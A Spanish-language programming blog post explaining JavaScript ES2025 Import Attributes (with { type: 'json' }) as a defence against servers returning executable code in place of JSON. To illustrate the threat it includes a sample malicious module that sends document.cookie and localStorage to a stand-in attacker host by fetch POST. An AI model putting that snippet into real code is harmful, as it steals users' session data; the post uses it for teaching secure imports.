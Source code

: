 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
slug: js-es2025-import-attributes
description: Comprendiendo su nueva sintaxis y por qué no podemos fiarnos solo de las extensiones de archivo.
language: es
date: 2024-11-22T21:33:25.684Z
update: 2024-11-22T21:33:25.684Z
image:
  src: /media/2024/11/js-es2025.svg
  alt: JavaScript ES2025
  og: /media/2024/11/js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript incorpora una nueva función que hace que las importaciones de módulos sean más explícitas y seguras. Los **Import Attributes** añaden una forma de pasar metadatos sobre cualquier módulo que estemos importando, ya sea JSON, JavaScript u otros tipos de módulos.

## ❌ El problema

En Internet, las extensiones de archivo no indican el contenido de forma fiable. Un servidor puede devolver JavaScript cuando usted espera JSON:

😇 **main.js**

```js
// Parece seguro, pero podría ser peligroso ☢️
import config from './config.json';
```

😈 **config.json**

```js
// El servidor podría responder con código ejecutable:
export default (function(){
  // Ejecución inesperada de código 💀
})();
```

## 💡 La solución: Import Attributes

Los Import Attributes crean un contrato entre el código y el tiempo de ejecución. Declaras explícitamente qué tipo de módulo esperas:

```js
// Requerir JSON explícitamente
import config from './config.json' with { type: 'json' };

// O especificar JavaScript
import module from './module.js' with { type: 'javascript' };

// También funciona con importaciones dinámicas
const data = await import('./config.json', {
  with: { type: 'json' }
});
```

La sintaxis funciona de forma coherente en diferentes contextos de módulos:

```js
// Re-exportación con atributos
export { data } from './data.json' with { type: 'json' };

// Instanciación de Web Worker
new Worker('processor.wasm', {
  type: 'module',
  with: { type: 'webassembly' }
});
```

## 💭 ¿Por qué los Import Attributes?

El principal problema es la seguridad. En Internet, las extensiones de archivo no indican el contenido de forma fiable. Una URL que termine en `json` podría en realidad servir JavaScript:

😇 **main.js**

```js
// Carga de la configuración de la API
import apiConfig from './api-config.json';

// Lo que esperas obtener:
{
  "apiKey": "secret-key",
  "endpoint": "https://api.example.com",
  "timeout": 5000
}
```

😈 **api-config.json**

```js
// Lo que un servidor comprometido podría enviar en su lugar:
export default (function(){
  // Envía tus claves API a un atacante
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    apiKey: 'secret-key',
    endpoint: 'https://api.example.com',
    timeout: 5000
  }
})();
```

Los Import Attributes hacen que nuestro sistema de módulos sea más explícito y seguro. Los módulos JSON no pueden ejecutar código, son datos puros. Cuando marcas un módulo con `type: "json"`, estás garantizado que obtendrás datos JSON o un error, nunca código ejecutable.

El impacto más inmediato se produce en las importaciones JSON, donde la seguridad es crucial:

```js
// Archivos de configuración
import config from './config.json' with { type: 'json' };

// Configuración dinámica
const config = await import(
  `./config.${env}.json`,
  { with: { type: 'json' } }
);
```

Esta característica crea una base para manejar con seguridad diferentes tipos de módulos en JavaScript. Cuando llegue en 2025, dispondremos de una forma estándar de declarar nuestras expectativas sobre los módulos en todos los entornos JavaScript.

Piensa en ello como si añadieras seguridad de tipos a tus importaciones de módulos, no para los datos dentro de los módulos, sino para los propios módulos.
